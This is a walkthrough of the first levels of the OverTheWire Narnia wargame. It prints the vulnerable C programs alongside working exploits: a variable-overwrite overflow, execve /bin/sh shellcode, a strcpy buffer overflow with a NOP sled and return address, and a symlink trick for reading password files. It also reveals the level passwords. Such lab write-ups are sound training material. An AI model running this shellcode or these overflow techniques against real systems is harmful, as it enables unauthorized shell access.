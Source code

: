 # [overthewire.org](http://overthewire.org/wargames/)

## [Narnia](http://overthewire.org/wargames/narnia/)

### level 0

        # ssh narnia0@narnia.labs.overthewire.org
        password: narnia0
        
        # cat /games/narnia/narnia0.c
        
        #include <stdio.h>
        #include <stdlib.h>

        int main(){
            long val=0x41414141;
            char buf[20];

            printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
            printf("Here is your chance: ");
            scanf("%24s",&buf);

            printf("buf: %s\n",buf);
            printf("val: 0x%08x\n",val);

            if(val==0xdeadbeef)
                system("/bin/sh");
            else {
                printf("WAY OFF!!!!\n");
                exit(1);
            }

            return 0;
        }
        
        # ((echo -e "12345123451234512345\xef\xbe\xad\xde");(echo cat /etc/narnia_pass/narnia1)) | /games/narnia/narnia0
        Correct val's value from 0x41414141 -> 0xdeadbeef!
        Here is your chance: buf: 12345123451234512345ﾭ�
        val: 0xdeadbeef
        efeidiedae

### level 1

        # ssh narnia1@narnia.labs.overthewire.org
        password: efeidiedae
        
        # cat /games/narnia/narnia1.c
        
        #include <stdio.h>

        int main(){
            int (*ret)();

            if(getenv("EGG")==NULL){    
                printf("Give me something to execute at the env-variable EGG\n");
                exit(1);
            }

            printf("Trying to execute EGG!\n");
            ret = getenv("EGG");
            ret();

            return 0;
        }

        # export EGG=`echo -e "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"`
        # /games/narnia/narnia1
        # cat /etc/narnia_pass/narnia2
        nairiepecu
        
### level 2

        # ssh narnia2@narnia.labs.overthewire.org
        password: nairiepecu
        
        # cat /games/narnia/narnia2.c
        
        #include <stdio.h>
        #include <string.h>
        #include <stdlib.h>

        int main(int argc, char * argv[]){
            char buf[128];

            if(argc == 1){
                printf("Usage: %s argument\n", argv[0]);
                exit(1);
            }
            strcpy(buf,argv[1]);
            printf("%s", buf);

            return 0;
        }
        
        # /games/narnia/narnia2 `python -c 'print "\x90"*108+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"+"\x90"*4+"\xd0\xd5\xff\xff"'`
        
        # whoami
        narnia3
        
### level 3

        # ssh narnia3@narnia.labs.overthewire.org
        password: vaequeezee
        
        # cat /games/narnia/narnia3.c 

        
        #include <stdio.h>
        #include <sys/types.h>
        #include <sys/stat.h>
        #include <fcntl.h>
        #include <unistd.h>
        #include <stdlib.h>
        #include <string.h> 

        int main(int argc, char **argv)
        {
            int  ifd,  ofd;
            char ofile[16] = "/dev/null";
            char ifile[32];
            char buf[32];
 
            if(argc != 2){
                printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
                exit(-1);
            }
 
            /* open files */
            strcpy(ifile, argv[1]);
            if((ofd = open(ofile,O_RDWR)) < 0 ){
                printf("error opening %s\n", ofile);
                exit(-1);
            }
            if((ifd = open(ifile, O_RDONLY)) < 0 ){
                printf("error opening %s\n", ifile);
                exit(-1);
            }
 
            /* copy from file1 to file2 */
            read(ifd, buf, sizeof(buf)-1);
            write(ofd,buf, sizeof(buf)-1);
            printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);
 
            /* close 'em */
            close(ifd);
            close(ofd);
 
            exit(1);
        }


        # mkdir -p /tmp/pass/narnia3---------------/tmp
        # ln -s /etc/narnia_pass/narnia4 /tmp/pass/narnia3---------------/tmp/n4ps
        # touch /tmp/n4ps
        # /games/narnia/narnia3 /tmp/pass/narnia3---------------/tmp/n4ps
        copied contents of /tmp/pass/narnia3---------------/tmp/n4ps to a safer place... (/tmp/n4ps)

        # cat /tmp/n4ps
        thaenohtai

### level 4

        # ssh narnia3@narnia.labs.overthewire.org
        password: thaenohtai
